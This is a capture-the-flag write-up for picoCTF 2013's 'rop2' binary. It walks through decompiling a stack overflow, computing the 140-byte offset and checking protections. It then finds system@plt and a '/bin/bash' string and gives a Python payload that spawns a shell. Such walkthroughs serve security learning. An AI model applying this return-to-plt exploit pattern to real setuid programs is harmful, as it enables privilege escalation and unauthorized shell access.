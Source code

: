 ### S0lv3d by H4yicl3

First i download source here :https://2013.picoctf.com/problems/rop2-20f65dd0bcbe267d
then i use IDA to analysis the code
```c
int be_nice_to_people()			//<----function make us have permission run of suid
{
  __gid_t v0; // ST1C_4@1

  v0 = getegid();							// /bin/sh is usually symlinked to bash, which usually drops privs. Make
											// sure we don't drop privs if we exec bash, (ie if we call system()).
  return setresgid(v0, v0, v0);
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  be_nice_to_people();
  vulnerable_function();
  return write(1, "Hello, World\n", 0xDu);
}
ssize_t vulnerable_function()	
{
  char buf; // [sp+10h] [bp-88h]@1	//<----- overflow this 

  return read(0, &buf, 0x100u);
}
```

the second we need to find eip(return address)
```
-00000088 buf             db ?
+00000004  r              db 4 dup(?)
```
So the offset = 0x88+0x4 =0x8c(hex) = 140

the third we use gdb-peda to checksec
```
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED				<----- the flag NX turned on
PIE       : disabled
RELRO     : Partial
gdb-peda$ 
```

So we can't excute in stack 
the rop2 look like rop1 so we need find the other function 
we found that
```c
.text:080484A4                 public not_called
.text:080484A4 not_called      proc near
.text:080484A4                 push    ebp
.text:080484A5                 mov     ebp, esp
.text:080484A7                 sub     esp, 18h
.text:080484AA                 mov     dword ptr [esp], offset command ; "/bin/date"	<---- not /bin/bash
.text:080484B1                 call    _system								<---- we need call here
.text:080484B6                 leave
.text:080484B7                 retn
.text:080484B7 not_called      endp
```

but the system@plt not call _system
```
objdump -d rop2-20f65dd0bcbe267d | grep system
...
080483a0 <system@plt>:
or use IDA

.plt:080483A0 ; int system(const char *command)
.plt:080483A0 _system         proc near               ; CODE XREF: not_called+Dp
.plt:080483A0                 jmp     ds:off_804A008
```

Now we have address system : 080483a0 <system@plt>:

so we need to find /bin/bash i use gdb-peda to do it:

```
gdb-peda$ b *main
gdb-peda$ r
gdb-peda$ find /bin/bash
Searching for '/bin/bash' in: None ranges
Found 3 results, display max 3 items:
   rop2 : 0x8048610 ("/bin/bash")				<----- the address doesn't random
   rop2 : 0x8049610 ("/bin/bash")				
[stack] : 0xffffd8b2 ("/bin/bash")				<----- the address of libc -> random
gdb-peda$ 
```

So we need to excute system("/bin/bash")
address of system of function not_called
-->system_address = 0x080483A0
-->binbash_address = 0x8049610
finaly, we write the python script look like:
```python
padding = "A"*140
system_address = "\xa0\x83\x04\x08"
return_after_system = "junk"
binbash_address = "\x10\x96\x04\x08"
print padding + system_address + return_after_system + binbash_address
```

try to run it
```
(python rop2.py;cat)|./rop2 
whoami
hayicle
```

well done!!